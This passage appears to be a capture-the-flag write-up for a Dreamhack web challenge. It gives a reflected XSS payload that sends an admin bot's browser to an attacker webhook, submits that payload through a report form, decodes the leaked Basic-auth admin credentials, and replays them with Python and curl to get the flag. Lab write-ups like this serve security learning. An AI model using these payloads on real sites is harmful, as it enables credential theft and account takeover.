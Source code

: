 **Full URL**:
```
/intro?name=<script>document.location='https://your-webhook.com/'</script>&detail=test
```

### Step 2: Trigger Admin Bot
**Submit to Report Form**:
```
POST /report
Content-Type: application/x-www-form-urlencoded

path=/intro?name=<script>document.location='https://your-webhook.com/'</script>&detail=test
```

### Step 3: Capture Authorization Header
**Expected Webhook Request**:
```http
GET / HTTP/1.1
Host: your-webhook.com
Authorization: Basic YWRtaW46MWRlOThlMTM3MDhjMWYxZjYwMjNlMTMxYTdiZDg2NzY=
User-Agent: HeadlessChrome/...
```

### Step 4: Decode Credentials (Optional Verification)
```python
import base64

encoded_creds = "YWRtaW46MWRlOThlMTM3MDhjMWYxZjYwMjNlMTMxYTdiZDg2NzY="
decoded_creds = base64.b64decode(encoded_creds).decode()
print(decoded_creds)  # admin:1de98e13708c1f1f6023e131a7bd8676
```

### Step 5: Retrieve Flag
**Python Script**:
```python
import requests

url = "http://host3.dreamhack.games:23175/whoami"
headers = {
    "Authorization": "Basic YWRtaW46MWRlOThlMTM3MDhjMWYxZjYwMjNlMTMxYTdiZDg2NzY="
}

response = requests.get(url, headers=headers)
print(response.text)  # Contains the flag
```

**Alternative using cURL**:
```bash
curl -H "Authorization: Basic YWRtaW46MWRlOThlMTM3MDhjMWYxZjYwMjNlMTMxYTdiZDg2NzY=" \
     http://host3.dreamhack.games:23175/whoami
```

---
